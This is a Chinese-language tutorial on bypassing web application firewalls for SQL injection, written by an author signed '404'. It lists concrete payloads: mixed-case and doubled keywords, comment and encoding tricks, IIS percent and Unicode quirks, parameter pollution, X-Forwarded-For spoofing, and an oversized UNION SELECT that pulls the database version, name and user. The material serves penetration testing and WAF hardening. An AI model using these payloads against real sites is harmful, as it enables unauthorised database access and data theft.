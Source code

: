 # 0x00 简介

WAF的绕过我们无非就是利用WEB程序缺陷，容器特性,网络协议，数据库特性来组合利用绕过，从用户发出请求到数据库的每一点，寻找突破口。


# 0x01 常见的手段

1. HTTP协议

2. 大小混写

3. 替换

4. 使用特殊字符

5. 使用编码

6. 等价替换

7. 容器特性

8. 白名单

9. 缓冲溢出

等等



### HTTP协议

HTTP协议中有很多功能，一般来说我们可以用到的就是编码功能，后来有大佬发现了分块传入来绕过WAF，具体大家可以百度看看，大概http协议我们可以总结如下。

1. 构造畸形数据包 

2. 编码

3. 分块

4. 数据包溢出

可能有些表述有误，但是大概意思如此，构造畸形数据包的原理是http协议是有一定的容错性的，我们也常用这个容错性去绕过上传。编码绕过的原理也是利用程序解密，而waf识别不了，数据包溢出则是数据包过大waf自动丢弃不识别



### 大小混写

大小混写一般是绕过一些简单的正则 ，对大小写敏感的。

```
UnIon SlEct 

```


### 替换

这种一般是因为正则吧我们的关键词给替换删除了，但是没有进行多次匹配导致绕过

```
ununionion seselectlect

un/**/ion se/**/lect

```


### 特殊字符

特殊符号也多是数据库的特性，利用数据库可以使用多种符号来绕过，多种的运算符

```
`updatexml`

and!!!1=1

/**/

/*!50000*/

```


### 使用编码

这里和http协议差不多，多重编码等等，url编码会自己解码一次，但是有的程序他可以自己多次解密,那么我们就可以拿来利用
还有的程序参数他是支持base64的 那么我们的payload就可以编码绕过了

```
= -> %3D ->%25%33%44

and 1=1 -> YW5kIDE9MQ==

```


### 等价替换

mysql众多的函数也我们的bypass带来了很对便利，比如一个分割字符串的函数都是几个，倘若被过滤一个可以换成其他的

```
substr(version(),1,1)
Substring(version(),1,1)
Left(version(),1)

```


### 容器特性

1. iis

容器的特性给我们绕过非常的有帮助，感谢那些善于发现的师傅们。

```
iis+asp 的%特性：当传入的 s%e%l%e%c%t 函数被%分割时，解析出来还是select
iis+asp 的unicode特性 ： iis支持Unicode的解析 我们传入s%u0065lect解析为select

    +--------------------------------------------------------------------+
    |   Keywords     |        WAF             |  ASP/ASP.NET             |
    +--------------------------------------------------------------------+
    | sele%ct * fr%om..  | sele%ct * fr%om..      | select * from..      |
    | ;dr%op ta%ble xxx  | ;dr%op ta%ble xxx      | ;drop table xxx      |
    | <scr%ipt>      | <scr%ipt>                  | <script>             |
    | <if%rame>      | <if%rame>                  | <iframe>             |
    +--------------------------------------------------------------------+

```

2. hpp

hpp参数污染，前面我们绕过安全狗用到过，不同容器对我们传入的值解析顺序不同，这也是我们可以利用的

```
    php+apache    &id=1&id=2     他只解析最后一个


    +------------------------------------------------------------------+
    | Web Server      | Parameter Interpretation         | Example     |
    +------------------------------------------------------------------+
    | ASP.NET/IIS     | Concatenation by comma       | par1=val1,val2  |
    | ASP/IIS         | Concatenation by comma       | par1=val1,val2  |
    | PHP/Apache      | The last param is resulting  | par1=val2       |
    | JSP/Tomcat      | The first param is resulting | par1=val1       |
    | Perl/Apache     | The first param is resulting | par1=val1       |
    | DBMan           | Concatenation by two tildes  | par1=val1~~val2 |
    +------------------------------------------------------------------+

```

3. HTTP Parameter Contamination

不同的容器他会对我们的参数带入的一些特殊字符解析成不同的东西，比如

```
    +-----------------------------------------------------------+
    | Query String    |    Web Servers response / GET values    |
    +-----------------------------------------------------------+
    |         | Apache/2.2.16, PHP/5.3.3 | IIS6/ASP             |
    +-----------------------------------------------------------+
    | ?test[1=2       | test_1=2             | test[1=2         |
    | ?test=%         | test=%               | test=            |
    | ?test%00=1      | test=1               | test=1           |
    | ?test=1%001     | NULL                 | test=1           |
    | ?test+d=1+2     | test_d=1 2           | test d=1 2       |
    +-----------------------------------------------------------+

```


### 白名单

有的程序他会对本地ip不拦截，同时他的host使用`X-Forwarded-For` 等来获取

```
X-Forwarded-For:127.0.0.1

```


### 缓冲溢出

waf他处理数据包的大小有限，早期安全狗你提交过长url会直接奔溃

```
?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26

```




### 参考文章

1. Obfuscate and Bypass ： https://www.exploit-db.com/papers/17934

2. 9 ways to bypass Web Application Firewall：https://www.digitalmunition.me/2018/02/sql-injection-9-ways-bypass-web-application-firewall/




# 0x02 文末

bypass不要局限与一种，多种组合才能最大利用，你需要了解mysql的语法，特殊的符号，特殊的写法，FUZZ他可以容错的地方


#### 本文如有错误，请及时提醒，避免误导他人

* author：404